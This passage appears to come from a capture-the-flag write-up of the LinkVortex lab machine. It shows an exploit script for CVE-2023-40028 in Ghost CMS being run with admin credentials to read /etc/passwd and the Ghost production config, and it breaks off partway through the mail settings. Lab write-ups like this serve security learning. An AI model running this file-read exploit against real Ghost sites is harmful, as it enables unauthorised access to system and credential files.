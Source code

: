 Finally, we can use the exploit script by following the instruction in the exploit source code.

```bash
❯ ./exploit.sh -u admin -p OctopiFociPilfer45
[!] INVALID USERNAME OR PASSWORD
❯ ./exploit.sh -u admin@linkvortex.htb -p OctopiFociPilfer45
WELCOME TO THE CVE-2023-40028 SHELL
file>
```

From the `Dockerfile`, we know that there is an interesting file called `/var/lib/ghost/config.production.json`.

```bash
file> /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
node:x:1000:1000::/home/node:/bin/bash

file> /var/lib/ghost/config.production.json
{
  "url": "http://localhost:2368",
  "server": {
    "port": 2368,
    "host": "::"
  },
  "mail": {
    "transport": "Direct"
  },
  "logging": {
    "transports": ["stdout"]
  },
  "process": "systemd",
  "paths": {
    "contentPath": "/var/lib/ghost/content"
  },
  "spam": {
    "user_login": {
        "minWait": 1,
        "maxWait": 604800000,
        "freeRetries": 5000
    }
  },
  "mail": {
     "transport": "SMTP",
     "options": {
      "service": "Google",
      "host": "linkvortex.htb",
```